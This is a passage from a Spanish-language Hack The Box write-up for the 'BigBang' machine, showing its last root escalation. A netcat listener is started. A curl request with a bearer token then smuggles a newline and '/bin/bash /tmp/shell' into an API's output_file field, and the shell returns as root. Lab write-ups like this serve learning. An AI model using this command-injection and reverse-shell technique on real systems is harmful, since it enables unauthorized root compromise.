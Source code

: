 * Levanto un listener con netcat y ejecutó la shell remota en la víctima.

```terminal
$ sudo nc -lnvp 443           
	listening on [any] 443 ...

developer@bigbang:/tmp$ curl -POST http://127.0.0.1:9090/command -H "Content-type:application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NzMyNDE0MSwianRpIjoiMzdjMmVlMWEtOTExZi00Y2NkLWE5YmYtNDE2M2E1YzQzNjZkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NzMyNDE0MSwiY3NyZiI6ImMyNDBmMGJhLWM5MDAtNGU5Yy1iYmU3LWQ2MjFlYmIyNmU0NyIsImV4cCI6MTc0NzMyNzc0MX0.pqD7zHDgeVztzfgNhgencrex2Q7vTMnl-A0FPMKqJd4" -d '{"command":"send_image", "output_file": "test.png\n/bin/bash /tmp/shell"}'
```

De este modo obtengo acceso como `root` al sistema.

```terminal
	... connect to [10.10.14.249] from (UNKNOWN) [10.10.11.52] 56468
root@bigbang:/# id
uid=0(root) gid=0(root) groups=0(root)

root@bigbang:/# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/645" target="_blank">***Litio7 has successfully solved BigBang from Hack The Box***</a>
{: .prompt-info style="text-align:center" }

